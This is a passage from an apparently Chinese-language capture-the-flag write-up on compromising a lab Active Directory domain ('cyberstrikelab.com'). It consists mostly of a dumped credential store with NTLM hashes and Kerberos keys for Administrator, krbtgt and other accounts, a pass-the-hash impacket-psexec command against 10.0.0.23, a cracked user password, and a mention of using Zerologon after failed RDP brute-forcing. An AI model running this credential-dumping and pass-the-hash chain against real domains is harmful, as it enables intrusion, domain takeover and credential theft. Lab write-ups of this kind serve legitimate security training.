[proxychains] Strict chain  ...  127.0.0.1:8001  ...  10.0.0.23:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:8001  ...  10.0.0.23:49669  ...  OK
Administrator:500:aad3b435b51404eeaad3b435b51404ee:82a790c5785b428fb8c7dab2b5fb1afa:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:914015901d379ce39700dfe66fb6b35d:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
cyberstrikelab.com\cslab:1104:aad3b435b51404eeaad3b435b51404ee:ac2e3b1c2d6f63f60713939e123e9df3:::
cyberstrikelab.com\jack:1106:aad3b435b51404eeaad3b435b51404ee:a5e3dd33465179d99f3e5d2144acaa6d:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CYBERWEB$:1103:aad3b435b51404eeaad3b435b51404ee:e99c7a0bb8ef21e9d4d46209b075990c:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:81bc96cfc5bdee8d56a8938875ce302c6a5409f112f54c8bbd6cec1a30d5dd1f
Administrator:aes128-cts-hmac-sha1-96:e3b03d6962e34119248952e7d45e566a
Administrator:des-cbc-md5:73e68fe3527acd79
krbtgt:aes256-cts-hmac-sha1-96:6829966a8dbb2cba19e7750b81c8e7c2b8d0852e04f5005c025ffc2c54c33835
krbtgt:aes128-cts-hmac-sha1-96:fd511fa97c56fa8cfb168d8930af1731
krbtgt:des-cbc-md5:e694709b4c3d7fe6
cyberstrikelab.com\cslab:aes256-cts-hmac-sha1-96:0cdd73248507737f27e41d1be59c96aa1af1343ea3a53073327c070ceb49e9f5
cyberstrikelab.com\cslab:aes128-cts-hmac-sha1-96:68396750c798f833130597f6535e1b4b
cyberstrikelab.com\cslab:des-cbc-md5:e5bf7c834a049294
cyberstrikelab.com\jack:aes256-cts-hmac-sha1-96:bc31517977cdbd2932b32a13af0495ecd6fd4cf6ef496c2825ef640d3febdb88
cyberstrikelab.com\jack:aes128-cts-hmac-sha1-96:4a036e846ce7941500dfee5846fc05f9
cyberstrikelab.com\jack:des-cbc-md5:bcf13e4fd0ce511a
DC$:aes256-cts-hmac-sha1-96:bf718fe6ea299affbc93f2f8a91d9f2ff7fe92d1073475335b24321dbaf26c5c
DC$:aes128-cts-hmac-sha1-96:4ff3263bb77f8f250214fd5dd9228198
DC$:des-cbc-md5:6eefc8018343380d
CYBERWEB$:aes256-cts-hmac-sha1-96:8bb99d7045559e47ccb56c107ada01c3cbada91953fd2b0669b1daf4a048305d
CYBERWEB$:aes128-cts-hmac-sha1-96:15516f75cdff227233ab46152495d085
CYBERWEB$:des-cbc-md5:151f4c1afdc8e983
[*] Cleaning up...
```

s使用hash登录拿到flag,当然另一台也可以用hash登录,flag也能拿到

```
proxychains4 impacket-psexec 'cyberstrikelab.com/Administrator@10.0.0.23' -hashes :82a790c5785b428fb8c7dab2b5fb1afa
```

感觉这个是非预期的解，也尝试过爆破域内用户名等手段。

通过导出的hash我们也爆破出了密码

a5e3dd33465179d99f3e5d2144acaa6d:admin123@123

当时rdp爆破没有这个密码，所以才搞了zerologin
